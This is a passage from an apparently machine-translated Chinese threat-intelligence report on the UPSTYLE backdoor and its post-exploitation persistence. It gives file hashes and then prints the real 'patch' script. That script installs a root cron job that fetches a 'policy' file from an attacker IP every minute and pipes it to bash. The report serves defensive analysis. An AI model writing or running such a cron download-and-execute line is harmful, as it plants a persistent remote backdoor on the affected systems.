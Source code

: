 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadwXhVxChXw7TP0z6nXAjibqpuAicxez43mOJOpr2Ly2Y7uBn79xHhXAfnsA5l8lp7u4Dbl5SOCvPHA/640?wx_fmt=png&from=appmsg "")  
  
图 1. UPSTYLE 主循环  
  
该恶意软件的整体工作流程如图2所示。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadwXhVxChXw7TP0z6nXAjibq5sEfaUHEtbQzXyxhqfXt3XNE5GvKiciajbQRppkl77lqkeocBnUo61cw/640?wx_fmt=png&from=appmsg "")  
  
图 2. UPSTYLE 工作流程  
  
**开发后活动**  
  
出于本博文的目的，以下文件名和指示器与 2024 年 4 月 10 日发生的利用相关。但是，读者应该注意，在随后的利用中，这些文件被 UTA0218 针对不同的受害者进行了更改。然而，它们的目的和操作基本上是相同的。  
  
利用漏洞后，威胁行为者通过不断获取并执行名为 的文件的内容来建立持久性patch。执行时，此文件会下载并执行名为policy.通过修改文件的内容policy，威胁参与者能够在受感染的设备上执行各种命令。policyVolexity总共观察到了文件的六种不同排列。  
  
该文件的详细信息patch如下所示：  
<table><tbody style="appearance: none;outline: 0px;"><tr style="appearance: none;"><td width="312" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">Name(s)</span></p></td><td width="312" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">patch</span></p></td></tr><tr style="appearance: none;"><td width="312" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">Size</span></p></td><td width="312" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">160.0B (160 Bytes)</span></p></td></tr><tr style="appearance: none;"><td width="312" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">File Type</span></p></td><td width="312" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">text/plain</span></p></td></tr><tr style="appearance: none;"><td width="312" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">MD5</span></p></td><td width="312" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">d31ec83a5a79451a46e980ebffb6e0e8</span></p></td></tr><tr style="appearance: none;"><td width="312" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">SHA1</span></p></td><td width="312" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">a7c6f264b00d13808ceb76b3277ee5461ae1354e</span></p></td></tr><tr style="appearance: none;"><td width="312" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">SHA256</span></p></td><td width="312" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">35a5f8ac03b0e3865b3177892420cb34233c55240f452f00f9004e274a85703c</span></p></td></tr><tr style="appearance: none;outline: 0px;"><td width="312" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);word-break: break-all;"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">VirusTotal First Submitted</span></p></td><td width="312" style="appearance: none;padding: 0.5rem;vertical-align: top;outline: 0px;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">N/A</span></p></td></tr></tbody></table>  
补丁文件内容如下所示：  
```
if [ ! -f '/etc/cron.d/update' ]; then
printf "SHELL=/bin/bash\n\n* * * * * root wget -qO- http://172.233.228[.]93/policy | bash\n\n" > /etc/cron.d/update
fi
```